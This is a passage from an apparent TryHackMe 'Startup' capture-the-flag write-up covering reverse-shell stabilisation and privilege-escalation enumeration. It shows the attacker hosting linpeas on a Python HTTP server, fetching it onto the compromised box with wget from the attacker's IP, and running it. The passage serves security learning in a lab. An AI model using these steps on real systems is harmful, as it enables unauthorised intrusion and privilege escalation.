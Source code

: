 Hit CRTL+z to background the current process and on local box type

```console
$:~ stty raw -echo
```

and type fg and hit enter twice and on the reverse shell export the TERM as xterm.

```console
www-data@startup:/var/www/html/files/ftp$  export TERM=xterm
```

Now we have a proper shell.

# Privilege Escalation
The first thing we can do is run scripts like [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/) or [LinEnum](https://github.com/rebootuser/LinEnum) to find out the potential privilege Escalation vectors.
I personally like linpeas as it has coloring which makes life easier.
As the box on THM doesnot have internet,we have to first download the script on our box, open up a python HTTP server and download on the remote box.
### Download linpeas.sh
```console
local@local:~/Documents/tryhackme/startup$ wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
--2020-11-09 13:49:58--  https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.112.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.112.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 297851 (291K) [text/plain]
Saving to: ‘linpeas.sh’

linpeas.sh                                  100%[===========================================================================================>] 290.87K   370KB/s    in 0.8s    

2020-11-09 13:49:59 (370 KB/s) - ‘linpeas.sh’ saved [297851/297851]
```

### Serving the file using HTTP server
```console
local@local:~/Documents/tryhackme/startup$ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### Downloading the file on the remote server
```console
www-data@startup:/var/www/html/files/ftp$ wget 10.6.31.213:8000/linpeas.sh
--2020-11-09 08:06:36--  http://10.6.31.213:8000/linpeas.sh
Connecting to 10.6.31.213:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 297851 (291K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh                                  100%[===========================================================================================>] 290.87K  65.8KB/s    in 4.4s    

2020-11-09 08:06:41 (65.8 KB/s) - 'linpeas.sh' saved [297851/297851]
```
And lets run the script.
```console
www-data@startup:/var/www/html/files/ftp$ bash linpeas.sh 
Linux Privesc Checklist: https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist
```
